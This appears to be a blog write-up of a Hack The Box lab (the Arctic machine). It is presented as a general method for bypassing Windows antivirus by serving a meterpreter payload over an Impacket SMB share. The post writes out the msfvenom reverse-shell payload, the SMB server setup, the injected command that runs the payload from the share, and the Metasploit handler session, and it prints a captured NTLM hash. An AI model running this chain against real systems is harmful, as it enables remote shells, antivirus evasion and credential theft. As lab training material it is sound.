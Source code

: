 ```yaml
---
layout: post
title: Bypass AV using Impacket SmbServer
categories:
  - Exploits
---
```



<br>This Topic is really interesting because many people don't know exactly how to bypass common AV in windows machine, if you look at most of the AV these days heuristic detection is off even in the enterprise/Companies because it takes a lot of CPU usage.

<br>And this is where we can utilise this Weak spot, Consider a scenario where we have a RCE, or OS-command Injection on the Web, for this I am taking the HTB Arctic machine, which fit's perfectly for this situation.

<br>Now as we know that machine have AV because of which we couldn't able to exeute a meterpreter payload, and later we created a Ecnrypted meterpreter with veil evasion.
<br>With this method we don't need to encode our meterpreter payload, we just need to set up our Impacket smb server and then run the command which will reqest our payload file and run that in the memory, because heuristic detection is off we can easily Bypass it.

<br>**Poc**
<br>if you have not Done the [Arctic](https://teckk2.github.io/writeup/2017/12/27/Arctic.html) machine, I recomend first follow the steps and reach the step where we have RCE on the web,

<br>First generate the Payload

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.*.*.10 LPORT=4455 -f exe > arctic.exe
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>No encoder or badchars specified, outputting raw payload
<br>Payload size: 341 bytes
<br>Final size of exe file: 73802 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Now Download and Install the [Impacket Server](https://github.com/CoreSecurity/impacket).
<br>And then run it 

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed</p>
</div>
</font>
<br>In this I am using teck as the remote folder name to represent on the server and my file is in /root/Desktop/
<br>Now our SMB server is up and runnig now go to the web page and request for the file with the command **{/c \\10.*.*.10\teck\arctic.exe}**.
<br> ![SMB-Request](https://teckk2.github.io/assets/images/Arctic/17.PNG)
<br>Before you execute the command make sure to set up the meterpreter listner
<br>After executing wait for 30-40 Sec to get the request on the SMB server

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Incoming connection (10.10.10.11,51377)
<br>[*] AUTHENTICATE_MESSAGE (ARCTIC\tolis,ARCTIC)
<br>[*] User tolis\ARCTIC authenticated successfully
<br>[*] <br>tolis::ARCTIC:4141414141414141:2c61717958f1127eca09aa171e1c1d09:01010000000000000065347207f9d30170ad6d3e142ee07700000000010010007500<br>5300590056004f006700630067000200100061004c0076004b0078004c0050007a000300100075005300590056004f006700630067000400100061004c0076004b00<br>78004c0050007a00070008000065347207f9d301060004000200000008003000300000000000000000000000003000005f5d2c0dd8d042f2bceefe6e8fb2072d4dd0<br>38e23ce10f454d55eee31d91688c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00<br>31003000000000000000000000000000</p>

</div>
</font>

<br>We got the request Now check our MSF

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
 
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">multi/handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">multi/handler</font>) > set LHOST 10.*.*.10
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">multi/handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">multi/handler</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.*.*.10:4455 
<br><font color="RoyalBlue">[*]</font> Sending stage (179779 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.*.*.10:4455 - 10.10.10.11:51379) at 2018-05-31 13:47:39 -0400</p>

<p>meterpreter > getuid 
<br>Server username: ARCTIC\tolis
<br>meterpreter > shell 
<br>Process 3848 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>whoami
<br>whoami
<br>arctic\tolis</p>

<p>C:\ColdFusion8\runtime\bin> </p>

</div>
</font>

<br>As you can see we successfully executed our meterpreter payload in the memory and bypass the AV and get shell.
<br>I learned This method from my mentor [KNX](https://twitter.com/ddarix), you can check the Orignal Video.
<iframe src="https://youtu.be/BLBFKp20idE" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

<p class="message">
  ~ Hack the World and keep Loving Little Prince.
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>


